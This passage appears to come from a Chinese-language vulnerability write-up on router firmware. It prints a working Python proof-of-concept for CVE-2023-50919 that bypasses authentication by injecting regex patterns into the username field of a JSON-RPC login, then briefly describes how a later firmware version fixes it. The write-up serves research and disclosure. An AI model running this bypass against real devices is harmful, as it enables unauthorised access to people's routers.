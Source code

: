 ```python
#CVE-2023-50919.py
import requests
import hashlib

requests.packages.urllib3.disable_warnings()
s = requests.Session()
s.verify = False
s.keep_alive = True
s.headers.update({'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'})

url = "http://192.168.122.130/rpc"
j = {"jsonrpc":"2.0","id":1,"method":"challenge","params":{"username":"root"}}
r = s.post(url, json=j)
if r.status_code == 200 and "Access denied" not in r.text and "nonce" in r.json()['result']:
    nonce = r.json()['result']['nonce']
    data = f'root:[^:]+:[^:]+:0:{nonce}'
    hash = hashlib.md5(data.encode()).hexdigest()
    j = {"jsonrpc":"2.0","id":1,"method":"login","params":{"username":"root:[^:]+:[^:]+","hash":hash}}
    r = s.post(url, json=j)
    try:
        sid = r.json()['result']['sid']
    except Exception:
        pass
    if sid:
        print("[*] Successfully generated a non-privileged SID: \033[1m%s\033[0m" %sid)

    else:
        print("[*] Error! Could not generate a SID!")
else:
    print("[*] Could not get a nonce from the target device! Try again later!")
```



## CVE-2024-45261

下载修复版本 v4.5.0 固件，解包查看是 CVE-2023-50919 如何修复的，可以看到对 username 进行了正则检查，严格限定为小写字母、数组、下划线和连字符，堵死了利用用户名拼接正则表达式的漏洞。

![](/assets/images/2024-11-04/41.png) 
